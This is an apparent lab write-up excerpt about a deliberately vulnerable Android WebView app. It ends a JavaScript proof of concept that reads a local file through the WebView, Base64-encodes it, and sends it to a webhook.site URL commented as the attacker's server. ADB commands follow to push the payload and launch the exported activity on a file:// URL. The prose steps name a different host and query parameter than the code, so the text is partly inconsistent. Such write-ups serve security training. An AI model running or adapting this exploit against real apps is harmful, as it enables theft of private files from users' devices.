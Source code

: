 ```html
                // Send the encoded content to the attacker's server
                fetch('https://webhook.site/b1b876ad-e34b-46ea-b431-6d89b4acf38c/?exfiltrated=' + base64Content)
                    .then(response => console.log('Data exfiltrated successfully'))
                    .catch(error => console.error('Exfiltration failed:', error));
            }
        };

        // Open and send the GET request
        xhr.open('GET', url, true);
        xhr.send('');
    }

    // Trigger the exploit
    load(url);
  </script>
</head>
<body>
    <h1>Loading...</h1>
</body>
</html>

```

***

#### Steps to Exploit

1. **Save the Exploit HTML File**: Save the above JavaScript code as `poc.html`.
2.  **Push the Exploit to the Device**: Use ADB to push the exploit file to the device's SD card:

    ```bash
    adb push poc.html /sdcard/poc.html
    ```
3.  **Launch the Exploit**: Use an ADB command to launch the `RegistrationWebView` activity and load the exploit file:

    {% code overflow="wrap" %}
    ```bash
    adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/poc.html"
    ```
    {% endcode %}
4. **Exfiltration**:
   * The WebView will load the exploit HTML file.
   * The JavaScript code will read the target local file (`MainActivity.xml`) and encode its contents in Base64.
   * The encoded data will be sent to the attacker's server (`attacker-server.com`).
5. **Capture Exfiltrated Data**:
   * The attacker's server will receive the exfiltrated data in the query parameter `data`.
   * Decode the Base64 content to retrieve the file contents.

***
